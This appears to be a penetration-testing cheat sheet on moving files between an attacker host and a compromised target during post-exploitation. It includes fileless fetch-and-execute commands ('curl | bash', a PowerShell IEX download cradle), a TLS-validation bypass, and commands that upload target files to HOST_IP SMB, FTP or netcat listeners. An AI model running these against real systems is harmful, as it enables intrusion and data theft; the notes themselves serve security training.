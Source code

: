# Transfer files 🛅

[![filetransfers](../../../_badges/htb/filetransfers.svg)](https://academy.hackthebox.com/course/preview/file-transfers)

<div class="row row-cols-lg-2"><div>

We will often want to transfer files between your machine, and the target. Mostly during privilege escalation and post-exploitation.

According to the current environment capabilities <small>(e.g., installed tools)</small> and restrictions <small>(e.g. firewall)</small>, we will have to use different techniques.

The most common approaches from the host to the target:

* Copy-pasting <small>(short text files)</small> ✂️
* Python web server <small>(using wget/cURL/iwr as client)</small> 🐍

📚 There are also fileless techniques to avoid storing the file on the target, such as `curl xxx | bash` or other similar tricks.
</div><div>

To transfer a file from the target to the host, it's often harder and more complex. Some common approaches are:

* Copy-pasting <small>(short text files)</small> ✂️
* Moving files to the webserver directory <small>(if applicable)</small> 📂
* Python web server <small>(often available on Linux)</small> 🐍
* Using services such as SCP/FTP/SMB/NFS/... <small>(if present)</small> 🎡
* Using installed tools such as nc, php, etc. 🧯

We may use checksum functions/commands to check that the file was correctly transferred. [Refer to cryptography/hashing/checksum](/cybersecurity/cryptography/algorithms/hashing/index.md#file-checksum).
</div></div>

<hr class="sep-both">

## Sending a file to others 🔒

<i class="small">On the "host" where the file is:</i>

<div class="row row-cols-lg-2"><div>

#### Python webserver 🐍

Start a webserver allowing clients to download the files. You may try with `python2`, and `python3` if `python` is unavailable.

```shell!
$ python2.7 -m SimpleHTTPServer
$ python -m http.server port # port > 1023 | expose pwd
$ python [...] --directory /path/to/server/root
$ sudo python -m http.server port # port <= 1023
```

#### Upload To SMB Share

You can use `copy` to upload a file to a client SMB share:

```shell!
PS> copy file.txt \\HOST_IP\share_name\path
PS> robocopy file.txt \\HOST_IP\share_name\path
```

If guest access is not allowed, try [mounting the share](/operating-systems/networking/protocols/smb.md).
</div><div>

#### Upload To FTP Server

You can use the URL `ftp://HOST_IP/<target_file_name>` with a HTTP upload tool or the [FTP](/operating-systems/networking/protocols/ftp.md) PowerShell client:

```shell!
PS> (New-Object Net.WebClient).UploadFile('ftp://X/abc', 'C:\path\to\abc')
PS> ftp -v -n
ftp> open IP
ftp> USER anonymous
password: <blank>
ftp> dir # list files
ftp> put <file>
ftp> bye
```

#### Other webservers 🎡

You may leverage an installed web development tool/package to start a webserver allowing clients to download files:

```shell!
$ php -S 127.0.0.1:8080 # php
$ http-server -p 8080   # node "http-server" package
$ ruby -run -ehttpd . -p8080
```
</div></div>

<hr class="sep-both">

## Receiving/Fetching a file 🔑

<i class="small">On the "client" that need the file:</i>

<div class="row row-cols-lg-2"><div>

#### Using Common Utilities

The `wget` command is available on both Linux and Windows.

```shell!
$ # Download on Linux
$ wget HOST_IP:port/script.sh -o /tmp/script.sh
PS> # Download on Windows
PS> wget HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

You may have to use `curl` or `iws` (Windows-only) instead of `wget`.

```shell!
$ curl HOST_IP:port/script.sh -o /tmp/script.sh
PS> curl HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> iws HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

#### Host A Simple Upload Server

Run a webserver with an upload file form, such as the one below:

```ps
$ sudo pip3 install uploadserver
$ python3 -m uploadserver
$ python3 -m uploadserver 443 --server-certificate cert.pem
```

And make the client use it to upload the file.

#### Download From SMB Share

You can use `copy` to download a file from a share:

```shell!
PS> copy \\HOST_IP\share_name\file_path
PS> robocopy \\HOST_IP\share_name\file_path .
```

If guest access is not allowed, try [mounting the share](/operating-systems/networking/protocols/smb.md).
</div><div>

#### Download From FTP Server

You can use the URL `ftp://HOST_IP/<file_name>` with a HTTP client such as `wget` or the [FTP](/operating-systems/networking/protocols/ftp.md) PowerShell client:

```shell!
PS> ftp -v -n
ftp> open IP
ftp> USER anonymous
password: <blank>
ftp> dir # list files
ftp> get <file>
ftp> bye
```

#### Window Utilities

A few windows commands/tools we can use:

```shell!
PS> # all are said to be faster than iwr/curl/wget
PS> (New-Object Net.WebClient).DownloadFile('URL','OUTPUT')
PS> (New-Object Net.WebClient).DownloadFileAsync('URL','OUTPUT')
PS> IEX (New-Object Net.WebClient).DownloadString('URL')
```

➡️ See also: [DownloadCradles.ps1](https://gist.github.com/HarmJ0y/bb48307ffa663256e239) <small>(0.3k ⭐)</small>. Add the `-UseBasicParsing` in case of IE errors. To disable SSL/TLS:

```shell!
PS> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
</div></div>

<hr class="sep-both">

## Additional Elements

<div class="row row-cols-lg-2"><div>

#### services 🕳️

You may use FTP/SCP/NFS/SMB/... if applicable.

* [Simple SMB Server](/operating-systems/networking/protocols/smb.md) (Linux Host)
* [Simple FTP Server](/operating-systems/networking/protocols/ftp.md#simple-ftp-server) (Linux Host)

An alternative to SMB that uses HTTP is WebDav.

```shell!
$ sudo apt install python3-wsgidav
$ wsgidav --host=0.0.0.0 --port=8080 --root=/tmp/smbshare --auth=anonymous
PS> iwr -Uri "http:/IP:8080/<file>"
PS> copy \\IP\DavWWWRoot\<file> # 👻 // didn't work
```

We may be able to mount a drive using RDP. On Windows, in the options of the RDP client, we can configure the mapping too.

```shell!
$ rdesktop [...] -r disk:linux='/path/to/folder'
$ xfreerdp [...] /drive:linux,/path/to/folder
```
</div><div>

#### netcat 🐈

```ps
# host
$ nc CLIENT_IP port < file.sh
# client
$ nc -lvp port > file.sh
$ # --recv-only | -q 0 | --send-only
```

<br>

#### Copy-paste ✂️

Copy-paste may be an option, but not every file can be copy-pasted. One trick is to encode the file using [base64](/tools-and-frameworks/knowledge/encoding/index.md#base64---), copy-paste the base64 payload on a file on the target, and decode the file on the target.
</div></div>

<hr class="sep-both">

## Fileless payloads 👻

<div class="row row-cols-lg-2"><div>

On Linux, we often use a pipe (`|`):

```shell!
$ curl [...] | bash
$ wget -qO- [...] | bash
$ [...] | python3
```
</div><div>

On Windows, we often use:

```shell!
PS> IEX [...]
PS> [...] | IEX
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [Windows File Transfer Cheatsheet](https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/)
* [croc](https://github.com/schollz/croc)
* [PSUpload](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)
* `/dev/TCP`
* can use cURL to upload files
* can use openssl like nc

```
$ openssl s_server -quiet -accept 80 -cert cert.pem -key key.pem < file
$ openssl s_client -connect IP -quiet > file
```
</div><div>
</div></div>
